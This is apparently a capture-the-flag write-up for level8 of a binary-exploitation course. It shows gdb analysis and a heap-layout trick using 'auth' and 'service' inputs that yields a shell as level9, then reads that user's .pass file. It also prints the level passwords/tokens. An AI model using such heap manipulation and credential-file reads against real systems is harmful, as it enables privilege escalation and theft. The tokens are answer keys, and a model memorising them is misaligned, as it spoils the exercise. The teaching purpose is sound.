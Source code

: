 # Level8 - Very long main

## Local script usage

```shell
Usage: ./Ressources/main.sh
```

## Passwords and token

|        |                                                                    |
| ------ | ------------------------------------------------------------------ |
| level8 | `5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9` |
| level9 | `c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a` |

## Steps to resolve on VM

Note: We will use `gdb-peda`. You can setup peda with the script: [scripts/installPeda.sh](../../scripts/installPeda.sh)

Execute level8

```shell
./level8
> (nil), (nil)
a
> (nil), (nil)
b
(...)
```

Lets debug the binary

```shell
(gdb) info functions
0x08048564  main
```

See our assembly interpretation in [source file](../source.c)

To access to the new access, the byte at `*auth + 0x20` has to be not null.

It means `0x804a008 + 0x20` => `0x804a028` has to be not null

First we have to define `auth`:

```shell
~/level8
> (nil), (nil) # auth, service
auth a
> 0x804a008, (nil)  # auth, service
```

Malloc returns a pointer to `0x804a008`

If the input is "service", it calls `strdup` and allocates a new part of memory.

```shell
service
> 0x804a008, 0x804a018  # auth, service
```

The pointer `service` aims to 0x804a018.

Two solutions:

- either allocate a new part of memory starting at `0x804a028` using `strdup`:

```shell
> 0x804a008, 0x804a018  # auth, service
service
> 0x804a008, 0x804a028 # auth, service
login
$ # here the shell is
```

- _(after restart ./level8 to set `service` at `null`)_ <br />
  or write a string big enough to erase the address `0x804a028`: (`0x804a028 - 0x804a010 = 0x10` => 16 bytes)

```shell
> 0x804a008, (nil)  # auth, service
service0123456789abcdef
> 0x804a008, 0x804a028 # auth, service
login
$ # here the shell is
```

Finally we can get the pass !

```shell
$ whoami
> level9
$ cat /home/user/level9/.pass
> c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a
```

---

## Sources

### ASM

- [What do the assembly instructions 'seta' and 'setb' do after repz cmpsb?](https://stackoverflow.com/questions/44630262/what-do-the-assembly-instructions-seta-and-setb-do-after-repz-cmpsb/44630741)
- [REPNZ SCAS Assembly Instruction Specifics](https://stackoverflow.com/questions/26783797/repnz-scas-assembly-instruction-specifics)
- [x86 Registers](https://www.eecg.utoronto.ca/~amza/www.mindsec.com/files/x86regs.html)
- [x86 Instruction Set Reference - REP/REPE/REPZ/REPNE/REPNZ](https://c9x.me/x86/html/file_module_x86_id_279.html)

### Shell

- [Man fgets](https://linux.die.net/man/3/fgets)
- [Man free](https://linux.die.net/man/3/free)
- [Man fwrite](https://linux.die.net/man/3/fwrite)
- [Man malloc](https://linux.die.net/man/3/malloc)
- [Man printf](https://linux.die.net/man/3/printf)
- [Man strcpy](https://linux.die.net/man/3/strcpy)
- [Man strdup](https://linux.die.net/man/3/strdup)
- [Man system](https://linux.die.net/man/3/system)

```

```

